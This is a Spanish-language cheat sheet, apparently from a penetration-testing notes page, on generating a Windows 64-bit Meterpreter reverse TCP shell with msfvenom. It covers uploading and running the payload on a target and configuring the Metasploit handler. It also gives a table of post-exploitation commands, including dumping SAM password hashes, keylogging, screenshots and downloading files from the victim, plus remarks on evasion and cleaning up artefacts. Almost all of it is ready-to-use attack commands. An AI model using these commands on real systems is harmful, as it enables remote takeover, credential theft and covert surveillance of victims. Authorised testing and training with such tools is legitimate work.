 **Generación y uso de Meterpreter 64-bit Windows shell con msfvenom**

---

### 1. Generar payload con msfvenom

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Atacker-IP> LPORT=<PORT> -f exe -o shell.exe
```

* `-p windows/x64/meterpreter/reverse_tcp`: payload Meterpreter 64-bit reverse TCP.
* `LHOST`: IP del atacante (listener).
* `LPORT`: puerto escucha.
* `-f exe`: formato ejecutable Windows.
* `-o shell.exe`: archivo generado.

---

### 2. Subir `shell.exe` a Windows Target

* Usar métodos: SMB, FTP, RDP, webshell, PowerShell `Invoke-WebRequest`, etc.

---

### 3. Configurar listener en Metasploit

```bash
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <Atacker-IP>
set LPORT <PORT>
run
```

* Espera conexión entrante del payload.

---

### 4. Ejecutar `shell.exe` en Windows Target

* Desde CMD, PowerShell o interfaz remota:

```cmd
.\shell.exe
```

---

### 5. Control y experimentación con Meterpreter

* Al conectarse, consola Meterpreter disponible.
* Comandos útiles:

| Comando              | Descripción                            |
| -------------------- | -------------------------------------- |
| `sysinfo`            | Información del sistema víctima        |
| `getuid`             | Usuario con que corre la sesión        |
| `shell`              | Abrir shell CMD interactivo            |
| `ps`                 | Listar procesos                        |
| `migrate <PID>`      | Migrar Meterpreter a otro proceso      |
| `hashdump`           | Volcar hashes SAM (si permisos altos)  |
| `upload <src> <dst>` | Subir archivos a víctima               |
| `download <file>`    | Descargar archivos desde víctima       |
| `keyscan_start`      | Iniciar registro de teclas (keylogger) |
| `keyscan_dump`       | Mostrar teclas capturadas              |
| `screenshot`         | Tomar screenshot del escritorio        |
| `portfwd`            | Redirigir puertos                      |

---

### 6. Consideraciones

* Ejecutar `shell.exe` con privilegios adecuados para maximizar capacidades.
* Meterpreter puede usar técnicas de evasión y encubrimiento.
* Limpiar artefactos y sesiones tras prueba.

---